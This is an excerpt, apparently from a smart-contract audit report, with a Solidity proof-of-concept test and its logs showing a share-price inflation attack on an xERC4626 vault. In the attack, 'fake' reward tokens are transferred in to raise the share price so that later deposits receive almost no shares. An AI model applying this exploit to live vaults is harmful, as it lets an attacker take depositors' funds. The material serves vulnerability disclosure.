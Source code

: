 ```js
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        // After new cycle come around. No rewards have been given.
        // But TotalAsset() have been updated to include fake rewards transfer above.
        // this push share price even higher than it should be.
        emit log_string("fast forward 1 hour to new rewards cycle");
        hevm.warp(3601); // new cycle
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 2e18  ", xToken.deposit(2e18, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        // xToken.syncRewards();
        // hevm.warp(7202); // new cycle
        // Test rounding up value of share
        emit log_named_uint("deposit 1.3e17", xToken.deposit(1.3e17, address(this)));
        emit log_named_uint("deposit 1.9e17", xToken.deposit(1.9e17, address(this)));
        emit log_named_uint("deposit 2e17  ", xToken.deposit(2e17, address(this)));
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
        emit log_named_uint("deposit 2.5e17", xToken.deposit(2.5e17, address(this)));
        // token too small will be reverted.
        hevm.expectRevert(abi.encodePacked("ZERO_SHARES"));
        xToken.deposit(1e17, address(this));
        emit log_string("deposit token less than share price amount will be reverted with zero share error");

        emit log_string("fast forward 1 hour to new rewards cycle");
        xToken.syncRewards();
        hevm.warp(7610); // new cycle
        emit log_named_uint("share price   ", xToken.convertToAssets(1));

        emit log_string("fast forward 1 hour to new rewards cycle");
        xToken.syncRewards();
        hevm.warp(7610+3601); // new cycle
        emit log_named_uint("share price   ", xToken.convertToAssets(1));
    }
```

Log Result:

```js
Running 2 tests for src\test\xERC4626.t.sol:xERC4626Test
[PASS] testExploitNormalCase() (gas: 286966)
Logs:
  share price   : 1
  deposit 1e18  : 1000000000000000000
  share price   : 1
  deposit 500e18: 500000000000000000000
  share price   : 1
  deposit 500e18: 500000000000000000000
  share price   : 1
  fast forward 1 hour to new rewards cycle
  deposit 2e18  : 2000000000000000000
  share price   : 1
  deposit 500e18: 500000000000000000000
  share price   : 1

[PASS] testExploitShare() (gas: 410737)
Logs:
  share price   : 1
  transfer 100e18 fake token rewards to inflate share price
  share price   : 100000000000000001
  deposit 1e18  : 9
  share price   : 110000000000000000
  deposit 500e18: 4545
```